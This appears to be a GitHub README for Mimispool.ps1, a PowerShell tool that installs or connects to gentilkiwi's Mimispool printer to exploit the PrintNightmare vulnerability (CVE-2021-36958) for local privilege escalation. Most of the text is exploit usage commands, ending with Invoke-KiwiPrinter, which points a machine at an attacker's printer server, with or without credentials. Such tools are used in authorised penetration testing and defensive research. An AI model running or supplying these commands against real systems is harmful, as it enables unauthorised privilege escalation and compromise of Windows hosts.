 # Mimispool.ps1

Just a very small script to install, uninstall or connect to gentilwiki's Mimispool printer. Used to exploit the PrintNightmare vulnerability (CVE-2021-36958) for local privilege escalation.

## Usage

### Import the Module

```powershell
. .\Mimispool.ps1
```

### Install Printer

```powershell
Install-KiwiPrinter
```

### Uninstall Printer

```powershell
Uninstall-KiwiPrinter
```

### Connect to Printer (Exploit)

```powershell
# With anonymous access
Invoke-KiwiPrinter -Server "192.168.47.129"

# With credentials
Invoke-KiwiPrinter -Server "192.168.47.129" -Username "user" -Password "pass"
```

![Proof of Concept](img/poc.png)
